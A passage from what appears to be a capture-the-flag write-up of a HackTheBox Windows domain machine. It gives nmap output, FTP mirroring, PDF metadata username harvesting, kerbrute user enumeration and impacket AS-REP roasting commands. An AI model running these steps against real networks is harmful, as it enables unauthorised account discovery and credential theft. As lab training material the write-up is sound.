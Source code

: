 ```bash
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.71 seconds

```


ftp login

```bash

wget -m ftp://10.10.10.240/

```

exif tool on the pdfs 

```bash

exiftool * | grep -i "creator\|Author" | awk -F: ' { print $2 }'

```

Kerburte

```bash

git clone https://github.com/ropnop/kerbrute.git

```

```bash

./kerbrute -d LicorDeBellota.htb --dc 10.10.10.240 userenum user.txt

impacket-GetNPUsers LICORDEBELLOTA.HTB/ -dc-ip 10.10.10.240 -usersfile ../../user.txt  -no-pass
```

![](20211106214311.png)

